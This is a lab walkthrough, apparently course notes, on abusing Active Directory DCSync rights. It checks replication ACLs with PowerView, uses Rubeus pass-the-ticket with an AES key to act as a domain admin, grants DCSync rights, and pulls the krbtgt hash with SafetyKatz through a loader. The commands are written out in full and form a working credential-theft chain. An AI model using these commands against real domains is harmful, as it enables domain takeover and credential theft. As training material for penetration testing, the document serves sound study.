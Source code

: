 # 🪞 Check for DCSync rights, add them and pull hashes

First let's launch Powervew and look if we have replication rights

{% hint style="info" %}
Replication rights in Active Directory (AD) refer to the permissions that control which users or groups can replicate directory information between domain controllers. These rights are crucial for ensuring the integrity and security of the replication process within an AD environment.
{% endhint %}

We can check if we have replication rights using the following commands

```
. C:\AD\Tools\PowerView.ps1 
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we don't have replication rights, let's add them. Start a process as Domain Administrator by running the below comman from an elevated command prompt:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this command will spawn a shell, now in the new process we can run the bypass command, run PowerView and then ->

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student613 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now on a normal shell we can go and look and check for out rights ->

```
Get-DomainObjectAcl -SearchBase"DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx613"} 
```

Now we'll need to encode `lsadump::dcsync`

and launch this command:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
